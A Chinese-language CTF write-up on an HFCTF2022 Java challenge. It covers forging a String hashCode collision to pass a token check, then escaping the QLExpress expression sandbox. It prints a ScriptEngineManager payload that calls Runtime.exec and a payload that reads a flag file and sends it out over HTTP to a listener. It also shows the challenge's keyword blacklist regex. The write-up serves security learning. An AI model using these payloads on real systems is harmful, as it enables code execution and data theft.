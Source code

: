 ```yaml
---
title: CTF： java 哈希碰撞&QLExpression
author: Enokiy
date: 2022-01-01 
categories: [web安全]
tags: [java,web安全]
---
```



某CTF题目如下：

```java
public class QlApplication {
@RequestMapping({"/"})
public String index(){
return "welcome! :)";
}

    @RequestMapping({"/exp"})
    public String exp(@RequestBody Map params) throws Exception {
        String key  = (String)params.get("token").toString();
        String secret = "HFCTF2022";
        if (key.hashCode() == secret.hashCode() && !secret.equals(key)) {
            String cmd = params.get("cmd").toString();
            Pattern pattern = Pattern.compile("Process|runtime|javascript|\\+|char|\\\\|from|\\|\\]|load",2);
            if (pattern.matcher(cmd).find()){
                return "nononono!!";
            }

            ExpressRunner runner = new ExpressRunner();
            DefaultContext<String,Object> context = new DefaultContext<>();
            Object r = runner.execute(cmd,context,null,true,false);
            return "hack me";
        }

        return key;
    }
}

```

## java hash碰撞

其中的一个考点是，java 的hashcode，需要找到一个与原字符串不相等但hashcode相同的字符串。
String的hashcode的实现：
jdk1.8里面的源码：

```java
/*Returns a hash code for this string. The hash code for a String object is computed as
s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]

using int arithmetic, where s[i] is the ith character of the string, n is the length of the string, and ^ indicates exponentiation. (The hash value of the empty string is zero.)
Returns:
a hash code value for this object.
*/
public int hashCode() {
int h = hash;
if (h == 0 && value.length > 0) {
char val[] = value;

        for (int i = 0; i < value.length; i++) {
            h = 31 * h + val[i];
        }
        hash = h;
    }
    return h;
}

```

计算的关键就是for循环中的h = 31 * h + val[i]，对字符串的每一个字符依次进行该运算。下面有几个例子

```text
//97
"a".hashCode()
//97*31+98=3105
"ab".hahsCode()
//3105*31+99=96354"abc".hashCode()
```

可以看到前面字符的hash值也会影响后续hash值，于是我们能够构造出如下等式：
```text
31*h1 + a[i] = 31*h2 + b[j]
(h1-h2)*31 = b[j]-a[i]   
```

假如有字符串aa，我们能够很容易计算出与之hash相等的另一字符串bB

```text
//bB --> aa
31*98 + 66 = 3104 = 31*97 + 97 (aa)
```

后续字符串的hash也相等

```text
//trueSystem.out.println("bBDDD".hashCode()=="aaDDD".hashCode());   
```

因此本题想要构造出与HFCTF2022的hash相等的另一字符串，我们只需要找到与字符HF的hash相等的字符即可：
```text
HF=31*72+70=2302=31*71+101=Ge=31*73+39=I'
```

## hash碰撞另一种思路

使用hashcat工具解决：

先算出给出字符串的hash值（用16进制表示）,然后用hashcat爆破：

```text
System.out.println(Integer.toHexString("HFCTF2022".hashCode())); //865bf5b5

hashcat.exe -m 18700 -a 3 865bf5b5 --show 
```
```text
xxxxx\hashcat-6.2.5>hashcat.exe -m 18700 -a 3 865bf5b5 --show
865bf5b5:18wd6vi
```

## QLExpress

另外一个考点,题中的`ExpressRunner`是使用的[QLExpress](https://github.com/alibaba/QLExpress),QLExpress支持直接运行java代码,但是有黑名单类的限制,黑名单:
+ java.lang.System.exit
+ java.lang.Runtime.exec
+ java.lang.ProcessBuilder.start
+ java.lang.reflect.Method.invoke
+ java.lang.reflect.Class.forName
+ java.lang.reflect.ClassLoader.loadClass
+ java.lang.reflect.ClassLoader.findClass

绕过方法一:使用scriptEngineManager:

`cmd = new javax.script.ScriptEngineManager(null).getEngineByName("js").eval("java.lang.Run".concat("time.getRun").concat("time().exec('calc')"))`

绕过方法二:只是限制了不能执行命令,还有其他的读文件等操作可以进行,所以可以读出文件内容再通过http将flag发送出来:

```java
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Paths;
String flag = new String(Files.readAllBytes(java.nio.file.Paths.get(new java.net.URI("file:///j:/tmp/flag.txt"))));
HttpURLConnection conn = (HttpURLConnection) new URL("http://127.0.0.1:8080/?a="+flag).openConnection();
conn.setRequestMethod("GET");
conn.getResponseCode()
```